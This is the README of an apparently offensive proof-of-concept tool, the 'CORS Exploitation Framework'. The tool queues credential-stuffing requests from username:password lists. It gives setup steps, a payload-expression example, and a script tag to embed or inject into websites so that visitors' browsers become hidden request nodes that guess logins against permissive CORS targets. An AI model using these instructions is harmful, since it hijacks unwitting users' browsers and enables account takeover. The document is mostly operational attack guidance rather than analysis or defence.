 # CORS Exploitation Framework (CEF)

A proof-of-concept tool for conducting distributed exploitation of permissive CORS configurations.

## Setup

1. Install Redis and Python 3.
2. Clone this repository.
3. Install the dependencies.
    * `pip install -r requirements`
4. Set the `FILES_DIR` configuration item in `cef/__init__.py` to a directory that contains lists of credentials.
    * Credentials \*MUST\* be in `username:password` format.
5. Initialize the database in a Python interactive shell.

        import cef
        cef.init_db()

6. Launch Redis.
    * `$ redis-server`
7. Launch CEF.
    * `$ gunicorn cef:app --worker-class gevent --bind 127.0.0.1:8888`
8. Visit http://127.0.0.1:8888/dashboard.

## Usage

1. Add an attack. Pay special attention to the payload expression field. This field requires a python expression that leverages the `u` (username) and `p` (password) variables to return the payload for the request. It should look something like `json.dumps({'email':u,'password':p})`.
2. Add lists to the previously configured directory. Obviously, this requires access to the server's file system.
3. Queue up the attack by pressing the "run attack" button. The status will update showing the number of queued requests, but nothing is happening... yet.
4. Hook remote browsers to do the work for you. Any request for a file at the web root with the extension of `.js` will return the "hook" file that will turn an exposed browser into a stream-fed request node. Therefore, the code you'd want to embed (or inject) in a site would be something like `<script src="http://127.0.0.1:8888/cdscds.js"></script>`.
5. View the results panel for successful credential guesses. The dashboard uses Vue.js on the front end, so there is no need to refresh the page. Everything is rendered dynamically by the client.
